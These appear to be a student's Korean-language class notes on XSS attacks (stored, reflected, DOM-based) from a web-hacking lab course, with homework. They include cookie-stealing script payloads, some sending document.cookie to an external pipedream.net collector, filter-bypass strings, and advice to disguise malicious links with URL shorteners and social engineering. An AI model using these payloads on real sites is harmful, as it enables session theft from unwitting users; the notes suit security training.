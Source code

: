 # 7주차 수업정리
<script>
var cookie = document.cookie;
var img = new Image();
img.src = "URL?cookie=" + cookie;
</script>
...
<img src=x onerror="alert(1)">
...

---
XSS 공격은 크게 2가지

(1) 서버에 스크립트를 저장하는 방식
(2) 서버에 스크립트를 저장하지 않는 방식 (stored XSS)


(2)
## Stored XSS
장점 : 광역 시전 가능.
단점 : 특정인을 겨냥해서 공격하기 쉽지 않음.(흔적이 남는다.)


(1)
반사시키자~!

hello 라고 입력하면 그 당시에는 hello 가 나오지만, 다시 refresh하면 없어지는 것

검색창, 회원가입 시 id 중복검사하는 곳


burp suite 
reqpeater 에 보내서

ex)
Normaltic 이라고 검색하니까
html에 Normaltic이라고 나오는 곳을 찾아봄.

Normaltic<script>alert(1)</script> 라고 검색해보면 가능함.

공격 방법) short URL 사이트를 이용해서
긴 js가 포함되어 길어진 URL을 줄여 의심을 피하게 함.
https://t.ly/1zHt 같은 식으로


그래서.
reflected XSS 는 반드시
-> GET 방식으로 전달
++ 사회공학기법이 필요함.(이 링크좀 클릭해보세요 등)

POST 방식으로 찾았다고 바로 끝낼 것이 아니라, GET 방식으로 바꿔서 제대로 실행되는지 다시 확인하고 보고서 작성해야 함.



<div><script>var i = new Image();i.src = "https://eny0u8y8ai07.x.pipedream.net?cookie=" + document.cookie;</script>test</div>


short URL

---

# DOM Basded XSS

원래 
<script>
    var img = new Image();
</script>

DOM 버전
<script type="text/javascript">
    function serach()
    {
        var myurl = document.URL;
        if(myurl.index0f("?search=")>0)
        {
            document.getElementById('srch').innerHTML = "You've 
            searched for "+unescpae(myurl.substr(myurl.index0f
            ("?search=")+8));
        }
    }
</script>
    

글자가 출력되네?

POC 코드 넣어보자


p태그에서는 script가 적용되지 않음.
p태그 안에서 script를 작동시킬 수 있는 방법은 밑의 방식. 

<p>
<img src=x onerror="alert(1)">
</p>


근데 여기서는 더하기가 + 로 인코딩 되어서 되지 않음.
그럼 + 대신 %20 으로 바꿔서 다시 실행

<p>
<img src=x onerror="alert(1)">
</p>

?

DOM based
1. 화면을 잘 봐라
2. javascript
new Image();
document.~~ innerHTML = qweqwd


# Reflected XSS

어디에서 확인할 수 있을까?
-> 모든 페이지. 모든 파라미터.

url에 파라미터를 가지고 존재할 경우.
/?item=1234

그렇다면 1234가 똑같이 출력되는지 확인.
만약 그대로 출력이 된다면 가능성이 높음 

repeater로 옮기고,
item 에 내가 원하는 나만의 입력 문자를 넣어서 제대로 되는지 확인

그리고 

<"'>   
위 태그를 넣었을 때 그대로 출력이 되는 특수문자들을 확인.

그리고 html 태그 밖에 있으면 script 태그를 사용해봄.

?item=normaltic<script>

?item=normaltic<script></script>

?item=normaltic<scscriptript>

안되는 포인트가 뭔지 체크를 해나가면서 진행해야 함.

-> 숨박꼭질


XSS 2, 3 : refleacted XSS 취약점 찾기

제목에 "정답 제출" 이라고 하고 



## XSS 2 

회원가입 할 때 아이디에 
<script>alert(1)</script>
입력하고 

로그인할 떄
<script>alert(1)</script>
입력하면 alert 뜸


쿠키값을 탈취하는 링크를 만들어서
링크를 들어가게 해서 쿠키값을 탈취할 수 있게 함.


<script>document

<script>var asdf = new Image();asdf.src = "https://eny0u8y8ai07.x.pipedream.net?cookie=" + document.cookie;</script>



마이 페이지에서는 안됨.



공지사항 갈 때는 파라미터 없이 갔음.

검색 페이지에서 normaltic 으로 검색하면 normaltic 이라는 글자가 바로 나오는 것을 봤음.

근데 POST 방식임. 그래서 GET 방식으로 바꿔줌. change request method

여기서 send 했을 때 normaltic 글자가 그대로 들어가는 걸 확인했음.

이제 normaltic<"'> 입력하니까 
< 가 %lt; 라고 치환했음 그럼 꺽쇠 쓸 수가 없음.

" ' 는 가능함. 꺽쇠만 안되는 것임. 그럼 이걸 어떻게 활용할 수 있을까?

지금 이 데이터가 script 태그 안에 들어가서 오고 있음.
그럼 굳이 script 태그를 쓸 필요가 없다. 그럼 
normaltic'); 입력.
normaltic');alert(1);

그 뒤에 있는 "' 에 대한 검색을 지원하지 ~~~ 이걸 처리해줘야 함.
주석처리를 해주면 됨.
//

주석 마음껏 해도 됨. 서버측에서 처리되는 코드가 아니기 때문에.

그렇다면 
normaltic');//

url get 방식의 모든 파라미터에 하나씩 다 넣어볼 수 있음.

var+cookie=document.cookie;var_img=new+Image();img.src="URL"+cookie;

근데 맨 마지막 + 는 진짜 (+) 이기 떄문에 decode 들어가서 사칙연산 + 에 대해서 변환한 다음에 넣음. %2b

완성된 url을 copy url 해서

URL 을 만들어서 short URL 을 만들어서 접속하게 만들면 끝

---
과제 
(1) Reflected XSS, DOM Based XSS 공격 기법 정리
(2) XSS 2, 3, 7 -> Reflected XSS alert 띄우기 링크 만들기! (클릭했을 때 1 이 뜨도록)
(3) 게시글 페이징(번호) 10개까지만 출력하고 1번째 페이지, 2번째 페이지 등등





